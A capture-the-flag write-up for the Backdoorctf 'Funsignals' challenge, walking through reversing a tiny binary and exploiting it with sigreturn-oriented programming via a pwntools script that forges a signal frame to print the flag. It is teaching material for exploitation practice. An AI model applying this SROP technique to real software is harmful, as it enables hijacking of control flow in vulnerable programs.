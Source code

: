 # Backdoorctf Funsignals

Let's take a look at the binary (also the goal of this challenge will be to print the flag, not pop a shell):

```
$    file funsignals_player_bin
funsignals_player_bin: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
$    pwn checksec funsignals_player_bin
[*] '/Hackery/pod/modules/srop/backdoor_funsignals/funsignals_player_bin'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x10000000)
    RWX:      Has RWX segments
$    /funsignals_player_bin
15935728
Segmentation fault (core dumped)
```

So we can see that it is a `64` bit statically linked binary, with none of the standard binary mitigations. When we run it, we see that it scans in input, then seg faults.

## Reversing

Looking at the code in Ghidra, we see that this isn't a normal binary (probably just assembled versus compiled). Looking at the assembly code we see this:

```
                             //
                             // .shellcode
                             // SHT_PROGBITS  [0x10000000 - 0x1000004a]
                             // ram: 10000000-1000004a
                             //
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined entry()
             undefined         AL:1           <RETURN>
                             _start                                          XREF[4]:     Entry Point(*),
                             __start                                                      _elfHeader::00000018(*),
                             entry                                                        _elfProgramHeaders::00000010(*),
                                                                                          _elfSectionHeaders::00000050(*)  
        10000000 31 c0           XOR        EAX,EAX
        10000002 31 ff           XOR        EDI,EDI
        10000004 31 d2           XOR        EDX,EDX
        10000006 b6 04           MOV        DH,0x4
        10000008 48 89 e6        MOV        RSI,RSP
        1000000b 0f 05           SYSCALL
        1000000d 31 ff           XOR        EDI,EDI
        1000000f 6a 0f           PUSH       0xf
        10000011 58              POP        RAX
        10000012 0f 05           SYSCALL
        10000014 cc              INT        3
```

So we can see here, it executes two syscalls. For the first, the registers are equal to this:

```
RAX:    0x0
RDI:    0x0
RDX:    0x400
RSI:    ptr to top of stack (stack pointer rsp)
```

So here it is making a read syscall (check https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/ for more details). It is scanning in `0x400` bytes of data via stdin into the top of the stack.

For the next syscall, the registers are equal to this:

```
RAX:    0xf
RDI:    0x0
```

So here it is performing a Sigreturn syscall. When the kernel delivers a signal from a program, it creates a frame on the stack before it is passed to the signal handler. Then after that is done that frame is used as context for a sigreturn syscall to return code execution to where it was interrupted. It does this by popping values off of the top of the stack into registers, which were stored there so execution could continue after the signal is dealt with. The syscall itself takes a single argument in the rdi register (however for our use, it's not important in this context). We can tell that a sigreturn syscall is being made since it pops the value 0xf into the rax register before making the syscall to specify a sigreturn syscall. Checkout https://lwn.net/Articles/676803/ and https://thisissecurity.stormshield.com/2015/01/03/playing-with-signals-an-overview-on-sigreturn-oriented-programming/ for more.

Also another important thing to note, we can see that the flag is stored in the binary at the address `0x10000023`:

```
                             flag
        10000023 66 61 6b        ds         "fake_flag_here_as_original_is_at_server"
                 65 5f 66
                 6c 61 67
```

## Exploitation

So for our exploitation, we will be doing a Sigreturn Oriented Programming attack (SROP). Essentially what that is is when we use a sigreturn to take control of the all of the registers. Since we get to scan in `0x400` bytes worth of data to the top of the stack which is pointed to by the `rsp` register (along with the fact that it makes a sigreturn call after that), and a sigreturn pops values off of the top of the stack into the registers.

SROP is really useful in a lot of cases where traditional ROP won't work. It gives us control of the instruction pointer which is executed, and all other registers.

Just if you're curious, this is the sigcontext structure that is stored on the stack, which is used by the `sigreturn` to pop values into the register (for `x64`). This diagram is originally from https://amriunix.com/post/sigreturn-oriented-programming-srop/:

```
+--------------------+--------------------+
| rt_sigeturn()      | uc_flags           |
+--------------------+--------------------+
| &uc                | uc_stack.ss_sp     |
+--------------------+--------------------+
| uc_stack.ss_flags  | uc.stack.ss_size   |
+--------------------+--------------------+
| r8                 | r9                 |
+--------------------+--------------------+
| r10                | r11                |
+--------------------+--------------------+
| r12                | r13                |
+--------------------+--------------------+
| r14                | r15                |
+--------------------+--------------------+
| rdi                | rsi                |
+--------------------+--------------------+
| rbp                | rbx                |
+--------------------+--------------------+
| rdx                | rax                |
+--------------------+--------------------+
| rcx                | rsp                |
+--------------------+--------------------+
| rip                | eflags             |
+--------------------+--------------------+
| cs / gs / fs       | err                |
+--------------------+--------------------+
| trapno             | oldmask (unused)   |
+--------------------+--------------------+
| cr2 (segfault addr)| &fpstate           |
+--------------------+--------------------+
| __reserved         | sigmask            |
+--------------------+--------------------+
```

So now is the question of what will we do with our syscall. Looking through the code, we can see multiple syscalls (both will work for our purposes, doesn't matter too much for our purposes):

```
        1000000b 0f 05           SYSCALL
```

```
        10000012 0f 05           SYSCALL
```

So using the sigreturn, we can set `rip` to either address and execute a syscall. Since we have control over the registers, we can control what syscall is made. We can just go with a write syscall, to print the contents of the flag to us. To do that, we will need to set the following registers equal to these values:

```
RIP:    0x1000000b (address of a syscall, could use other syscalls)
RAX:    0x1 (specify write syscall)
RDI:    0x1 (specify stdout to write it to)
RSI:    0x10000023 (address of the flag)
RDX:    0x400 (amount of bytes to print, 0x400 is clearly overkill)
```

## Exploit

Putting it all together, we have the following exploit. Also one thing, pwntools has the capability to automatically build out a sigreturn frame, you just need to specify what values you want for what registers. It makes this really easy:

```
from pwn import *

target = process('./funsignals_player_bin')

# Specify the architecture
context.arch = "amd64"

frame = SigreturnFrame()

# Specify rip to point to the syscall instruction
frame.rip = 0x1000000b

# Prep the registers for a write syscall
frame.rax = 0x1
frame.rdi = 0x1
frame.rsi = 0x10000023
frame.rdx = 0x400

# Send the sigreturn frame
target.send(str(frame))

target.interactive()
```

When we run it:

```
$    python exploit.py
[+] Starting local process './funsignals_player_bin': pid 7092
[*] Switching to interactive mode
fake_flag_here_as_original_is_at_server\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00��\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x1b\x00\x00\x00\x00\x00\x00\x15\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00#\x00\x00\x00\x00\x00\x00#\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00(\x00\x00\x00\x10\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00)\x00\x00\x00\x10\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x000\x00\x00\x00\x10\x00��@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00<\x00\x00\x00\x10\x00��@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00C\x00\x00\x00\x10\x00��@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00/tmp/pwn-asm-T0zexC/step2\x00syscall\x00flag\x00__start\x00__bss_start\x00_edata\x00_end\x00\x00.symtab\x00.strtab\x00.shstrtab\x00.shellcode\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x1b\x00\x00\x00\x00\x00\x00\x07\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00K\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x11\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x88\x11\x00\x00\x00\x00\x00\x00&\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00P\x10\x00\x00\x00\x00\x00\x00�\x00\x00\x00\x00\x04\x00\x00\x00\x05\x00\x00\x0\x00\x00\x00\x00\x00\x00\x00\x18\x00\x00\x00\x00\x00\x00\x00    \x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00@\x11\x00\x00\x00\x00\x00\x00H\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\[*] Got EOF while reading in interactive
```

Just like that, we got the flag (followed by a lot of null bytes)!